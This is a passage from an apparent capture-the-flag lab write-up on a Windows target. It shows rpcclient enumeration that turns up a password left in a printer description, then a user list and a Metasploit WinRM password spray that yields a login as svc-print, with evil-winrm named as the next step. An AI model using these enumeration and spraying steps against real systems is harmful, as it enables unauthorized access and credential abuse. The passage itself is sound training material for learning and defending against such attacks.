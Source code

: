 ```shell
SeManageVolumePrivilege 		0:28 (0x0:0x1c)
SeImpersonatePrivilege 		0:29 (0x0:0x1d)
SeCreateGlobalPrivilege 		0:30 (0x0:0x1e)
SeTrustedCredManAccessPrivilege 		0:31 (0x0:0x1f)
SeRelabelPrivilege 		0:32 (0x0:0x20)
SeIncreaseWorkingSetPrivilege 		0:33 (0x0:0x21)
SeTimeZonePrivilege 		0:34 (0x0:0x22)
SeCreateSymbolicLinkPrivilege 		0:35 (0x0:0x23)
SeDelegateSessionUserImpersonatePrivilege 		0:36 (0x0:0x24)
rpcclient $> enumprinters
	flags:[0x800000]
	name:[\\10.10.10.193\HP-MFT01]
	description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
	comment:[]

rpcclient $>
```
Finally, found a password but we don't know who username is using this password 
so when enumerating in RPC we found some users
```shell
Administrator
Guest
krbtgt
DefaultAccount
svc-print
bnielson
sthompson
tlavel
pmerton
svc-scan
bhult
dandrews
mberbatov
astein
dmuir
```
But do not think about going back to smb and guess who is using this password. 
Let us think of another way, we can access this `Windows machine`

After searching I found module on metasploit, we can guess they are logged in winrm service
```shell
msf5 auxiliary(scanner/winrm/winrm_login) > set PASSWORD '$fab@s3Rv1ce$1'                                                                
PASSWORD => $fab@s3Rv1ce$1                                                                    
msf5 auxiliary(scanner/winrm/winrm_login) > set USER_FILE users                                                                                  
USER_FILE => users                                                                                            
msf5 auxiliary(scanner/winrm/winrm_login) > set RHOSTS 10.10.10.193                                                                                       
RHOSTS => 10.10.10.193                                                                                                                         
msf5 auxiliary(scanner/winrm/winrm_login) > exploit
```
After a long time we had that result:
```shell
[+] 10.10.10.193:5985 - Login Successful: WORKSTATION\svc-print:$fab@s3Rv1ce$1
```
Now we can access to svc-print with evil-winrm
Evil WinRM is the ultimate WinRM shell.
>WinRM (Windows Remote Management).
